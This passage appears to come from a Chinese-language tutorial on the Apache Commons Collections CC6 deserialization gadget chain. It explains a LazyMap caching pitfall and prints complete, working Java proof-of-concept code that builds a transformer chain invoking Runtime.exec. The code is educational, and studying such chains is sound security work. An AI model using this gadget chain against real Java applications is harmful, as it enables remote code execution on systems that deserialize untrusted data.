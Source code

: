 ```java
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
        unserialize("cc6.ser");
    }
```



### LazyMap#get中进行的冗余的map.put

但是为什么运行不了呢？我们在LazyMap.get打个断点调试一下

我们发现在put的时候，会调用到LazyMap的get方法，在这个方法中向HashMap添加进了TiedMapEntry传的key，和factory.transform的结果。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240720112035548.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240720112514435.png)

在我们反序列化的时候，再次走到这个LazyMap.get，map里已经有了这对键值对了，就不会走入if里触发transform

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240720113211140.png)

那我们在put后移除这个(key,value)，也就是本代码的("test1","godown")不就能进去了吗。

注意我们触发代码需要的是`hashMap.put(tiedMapEntry, "test2");`这个键值对，而不是上面`HashMap<Object, Object> map = new HashMap<>();`内的键值对



完整代码：

```java
public class CC6TiedMapEntry {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove("test1");//移除
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
        unserialize("cc6.ser");
    }
```